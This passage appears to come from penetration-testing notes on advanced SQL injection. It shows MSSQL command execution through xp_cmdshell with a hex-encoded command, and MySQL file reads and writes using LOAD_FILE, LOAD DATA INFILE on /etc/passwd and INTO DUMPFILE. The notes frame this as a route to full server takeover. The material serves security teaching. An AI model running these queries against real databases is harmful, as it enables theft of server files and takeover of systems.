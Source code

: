 > then insert a double zero after every character of the string.


Executing xp_cmdshell:
// now we have to create a variable the command string we have just created and then we pass it to xp_cmdshell

```
declare @t nvarchar(4096) set @t=0x640069007200200063003a005c00 insert into temptable (output) EXEC master.dbo.xp_cmdshell @t;
```

Reading the results:
// We can use any form of data-dumping

Final cleanup:
// delete the temporary table

```
DROP TABLE temptable;
```

## Advanced MySQL exploitation
- MySQL also provides some advanced features.
- https://dev.mysql.com/doc/refman/5.1/en/privileges-provided.html#priv_file
- IF a application connects to its database as root, exploiting a SQL injection will lead not only to data compromise, but also to full server takeover.

### Read Files
```
SELECT LOAD_FILE('<text file path>');
```

To read a binary file:
```
SELECT HEX(LOAD_FILE('<text file path>'));
```

// with this method, you can convert any binary file to a long hex string that you can use to steal any data from the server.

Its also possible to PARSE the content of a file and tell MySQL how to distinguish one record from another:
```
CREATE TABLE temptable (output longtext);
LOAD DATA INFILE '/etc/passwd' INTO TABLE temptable FIELDS TERMINATED BY '\n' (output);
```

### Uploading Files
This can be used to download huge query results via the web app and to upload pentester supplied data to the server.
```
SELECT <fields> FROM <table> INTO DUMPFILE '<output file path>';
```

- You can load a binary file into a table via SQL injection, by converting it into an hex-string
